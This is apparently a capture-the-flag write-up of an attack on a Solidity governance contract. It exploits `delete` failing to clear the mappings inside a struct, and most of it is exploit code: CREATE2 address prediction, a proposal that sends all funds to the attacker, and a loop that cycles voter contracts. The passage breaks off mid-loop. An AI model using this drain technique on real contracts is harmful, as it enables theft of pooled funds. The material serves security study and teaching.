 This vulnerability exposes a flaw in the governance system, allowing for exploitation by malicious actors.

The vulnerability stems from the incorrect clearing of mappings inside structs when using the `delete` keyword. In this case, the flaw occurs in the `deposeViceroy` function of the `Governance` contract.

```solidity
function deposeViceroy(address viceroy, uint256 id) external {
    require(oligargyNFT.ownerOf(id) == msg.sender, "Not an oligarch");
    require(viceroys[viceroy].appointedBy == id, "Only the appointer can depose");

    idUsed[id] = false;
    delete viceroys[viceroy]; // The flaw: Mappings inside the struct are not cleared
}
```

The attacker predicts the address of the `ViceroyAttacker` contract by combining the contract's bytecode with encoded data and hashing it.

```solidity
// Address Prediction
bytes memory bytecode = type(ViceroyAttacker).creationCode;
bytecode = abi.encodePacked(
    bytecode,
    abi.encode(_governance, player, _communityWallet)
);
bytes32 hash = keccak256(
    abi.encodePacked(
        bytes1(0xff),
        address(this),
        uint(123),
        keccak256(bytecode)
    )
);
address deployedAddr = address(uint160(uint(hash)));
```

The attacker appoints the predicted viceroy address as the viceroy, gaining control over approving voters.

```solidity
// Creating a Malicious Proposal
bytes memory data = abi.encodeWithSignature(
    "exec(address,bytes,uint256)", // will transfer balance to player
    _player, // player address
    "0x", // not needed to transfer balance
    value
);
Governance(_governance).createProposal(_player, data);

```

The attacker creates a malicious proposal, including data that will transfer all funds to their account when executed.

```solidity
// Approving Voters and Casting Votes
while (attackCounter < 11) {
    bytes memory bytecode = type(VoterAttacker).creationCode;
    bytecode = abi.encodePacked(
        bytecode,
        abi.encode(_governance, proposalId, address(this))
    );
    bytes32 hash = keccak256(
        abi.encodePacked(
            bytes1(0xff),
            address(this),
            attackCounter,
            keccak256(bytecode)
        )
    );
    address deployedAddr = address(uint160(uint(hash)));

    governance.approveVoter(deployedAddr);
            new VoterAttacker{salt: bytes32(attackCounter)}(
                _governance,
                proposalId,
                address(this)
            );
            governance.disapproveVoter(deployedAddr);
            attackCounter++;
```
